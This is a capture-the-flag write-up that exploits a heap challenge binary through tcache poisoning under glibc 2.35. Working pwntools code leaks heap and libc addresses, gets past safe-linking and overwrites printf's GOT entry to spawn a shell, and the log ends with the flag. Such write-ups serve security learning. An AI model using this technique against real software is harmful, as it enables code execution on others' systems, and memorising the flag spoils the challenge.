 ## Question 

It's been years since I played with the heap. Looks like I still got my mojo, this is too easy!!!! ...or is it ??

``nc 34.90.214.14 1337``

[heapchall](heapchall)

## Solution

The binary has ``partial RELRO, stack canaries, NX`` enabled but ``no pie``. Given the title ``elementary-tcache``, and the included ``libc``, its most likely going to be [tcache poisoning](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/tcache_poisoning.c) but we need to determine the ``libc`` version to understand what glibc protection mechanisms like [safe-linking](https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=a1a486d70ebcc47a686ff5846875eacad0940e41) that might be in effect. 

```
 pwn checksec ./heapchall
[*] '/root/workspace/nitectf/heapchall/heapchall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Using [pwninit](https://github.com/io12/pwninit), we identified the ``libc`` as [libc 2.35](https://launchpad.net/ubuntu/+archive/primary/+files//libc6_2.35-0ubuntu3.1_amd64.deb). This means it will have the most current protection mechanisms on the glibc. 

We first setup a skeleton to begin playing with the binary 

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary,checksec=False)
r = ROP(e)
libc = ELF('./libc.so.6',checksec=False)

gs = '''
set resolve-heap-via-heuristic on
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('34.90.214.14',1337)
    else:
        return process(e.path)


def allocate(slot,sz):
   log.info('Allocating %i,%i' %(slot,sz))
   p.recvuntil(b'Option:')
   p.sendline(b'1')
   p.recvuntil(b'Slot:')
   p.sendline(b'%i' %slot)
   p.recvuntil(b'Size:')
   p.sendline(b'%i' %sz)

def edit(slot,content):
   log.info('Editing slot: %i with %s' %(slot,content))
   p.recvuntil(b'Option:')
   p.sendline(b'2')
   p.recvuntil(b'Slot:')
   p.sendline(b'%i' %slot)
   p.recvuntil(b'content:')
   p.sendline(content)

def free(slot):
   log.info('Freeing slot: %i' %slot)
   p.recvuntil(b'Option:')
   p.sendline(b'3') 
   p.recvuntil(b'Slot:')
   p.sendline(b'%i' %slot)

def view(slot):
   p.recvuntil(b'Option:')
   p.sendline(b'4')
   p.recvuntil(b'Slot:')
   p.sendline(b'%i' %slot)
   return p.recvline()

def leak(slot):
   leak=view(slot).lstrip(b' ').rstrip(b'\n')
   try:
      leak=u64(leak+b'\x00'*(8-len(leak)))
      log.info("Leaking slot: %i with %s" %(slot,hex(leak)))
      return leak
   except:
      return 0
```

Right away, we see we can allocate(), free(), and then view the free()d addresses, which now reside in the ``tcachebins``. We notice that bin0 holds the ``heap address >>> 12`` that is used for ``pointer mangling``. We can unmangle the remaining pointers by XORing the ``fd`` found in the first 8 bytes with the leak from the first bin. Below we use it to unmask the address ``0x12f62a0``  from the XOR(bin0_leak,bin1_leak). Bin7, held a pointer to ``libc``. While we printed in out after discovering it, we did not need to use it in the final exploit.  

```python
p = start()
for i in range(0,10):
  allocate(i,128)

for i in range(0,10):
  free(i)

bin0_leak = leak(0)
bin1_leak = leak(1)
bin7_leak = leak(7)

libc.address=bin7_leak-2202848
heap_leak=(bin0_leak ^ bin1_leak)

log.info("Libc Leak Found: %s" %hex(libc.address))
log.info("Tcache Leak Found: %s" %hex(heap_leak))
```

```
[*] Tcache Leak Found: 0x12f62a0   
│pwndbg> tcachebins 
tcachebins
│0x90 [  7]: 0x12f6600 —▸ 0x12f6570 —▸ 0x12f64e0 —▸ 0x12f6450 —▸ 0x12f63c0 —▸ 0x12f6330 —▸ 0x12f62a0 ◂— 0x0
```

The only next thing we had to discover was finding an address that satisfied the conditions ``addr & 0xf == 0`` since the address needed to be ``MALLOC ALIGN``ed. We quickly check and see which addresses we can use to overwrite in the ``GOT`` and see ``stdout, stdin, stderr, puts, setbuf, printf, scanf`` are all correctly ``MALLOC ALIGN``ed. 

```
>>> from pwn import *
>>> e = ELF('./heapchall',checksec=False)
>>> for x in e.got:
...     if (e.got[x] & 0xf == 0):
...        print(x)
... 
__libc_start_main
stdout
stdin
stderr
puts
setbuf
printf
__isoc99_scanf
```

We will want to overwrite one of these addresses with the ``win`` function below.

```
00401216  int64_t win()

00401216  {
00401228      puts("Winner winner, chicken dinner!");
0040123e      return system("/bin/sh");
00401234  }
```

Since the ``win`` function calls ``puts``, we cannot use the ``puts`` address or we would never return to system. So we chose to overwrite the ``printf`` address. We then allocate two addresses until we allocate the ``fd`` that now points to the got entry for ``printf``. We then overwrite the entry with the address of our ``win function``

```
overwrite_addr = e.got['printf']
encrypted_ptr = (bin0_leak ^ overwrite_addr)
edit(6,p64(encrypted_ptr))

allocate(0,128)
allocate(1,128)

edit(1,p64(e.sym['win']))
```

Putting it all together, we run it and receive our flag. 

```
└─# python3 pwn-heap.py BIN=./heapchall REMOTE
[*] Loaded 5 cached gadgets for './heapchall'
[+] Opening connection to 34.90.214.14 on port 1337: Done
[*] Allocating 0,128
[*] Allocating 1,128
[*] Allocating 2,128
[*] Allocating 3,128
[*] Allocating 4,128
[*] Allocating 5,128
[*] Allocating 6,128
[*] Allocating 7,128
[*] Allocating 8,128
[*] Allocating 9,128
[*] Freeing slot: 0
[*] Freeing slot: 1
[*] Freeing slot: 2
[*] Freeing slot: 3
[*] Freeing slot: 4
[*] Freeing slot: 5
[*] Freeing slot: 6
[*] Freeing slot: 7
[*] Freeing slot: 8
[*] Freeing slot: 9
[*] Leaking slot: 0 with 0x2082
[*] Leaking slot: 1 with 0x2080222
[*] Leaking slot: 7 with 0x7f5fdd2d9ce0
[*] Libc Leak Found: 0x7f5fdd0c0000
[*] Tcache Leak Found: 0x20822a0
[*] Editing slot: 6 with b'\xc2`@\x00\x00\x00\x00\x00'
[*] Allocating 0,128
[*] Allocating 1,128
[*] Editing slot: 1 with b'\x16\x12@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
 Winner winner, chicken dinner!
$ cat flag.txt
nite{s4f3_l1nk1ng_1s_th3_futur3_0ld_m4n}
```
